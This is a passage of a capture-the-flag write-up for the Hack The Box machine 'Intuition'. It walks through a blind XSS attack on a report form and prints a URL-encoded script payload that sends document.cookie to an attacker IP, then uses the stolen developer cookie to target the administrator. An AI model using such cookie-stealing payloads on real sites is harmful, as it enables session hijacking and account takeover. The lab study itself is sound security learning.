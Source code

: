 ```bash
Finished
===============================================================
```

- Upon accessing the domain `comprezzor.htb`, we encounter a website that provides file compression service. Additionally , it is mentioned that if a inconvenience with the service arrise, it is posible to send a report through the vhost `report.comprezzor.htb`

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505163054.png)

- Within `report.comprezzor.htb` we can understand the flow of the report management. Understanding that initially, reported bugs are reviewed by developers, but if a bug requires further attention, it will be escalated to out administrators for resolution.

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505163639.png)

- To be able to submit a report, it is neccessary to create an account on `auth.comprezzor.htb`. Once this is done, we can submit  our report. Given that reports will be initially reviewed by the developers and furthermore the cookies don't have security attributes set, we will attempt to exploit a `Blind XSS`  for obtain their cookie.

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505164516.png)


```post-parameters
report_title=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.162%2Findex%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E&description=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.162%2Findex%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```


- To do this, we'll first start a HTTP service on port 80 using python, and then we'll retrieve the cookie of the `developer` who reviewed our report.

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505165018.png)
![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505165223.png)

- As a regular users can't access to `dashboard.comprezzor.htb`, but now we have `webdev` user's cookie, we can access it and see the reports that  still need to be reviewed.

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505165404.png)

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505165636.png)


- After reviewing the functionalities present in the `webdev` dashboard, we noticed that we can set **High Priority**, presumably for the report to be reviewed by the administrator. If that's the case, we might be able to hijack the administrator user's cookie again due to a  `Blind XSS` vulnerability.

![](/assets/images/HTB-Writeup-Intuition/Pasted image 20240505170035.png)

- We will resend a report with the same payload, and this time we will set it as **High Priority** so that it can be reviewed by the administrator.
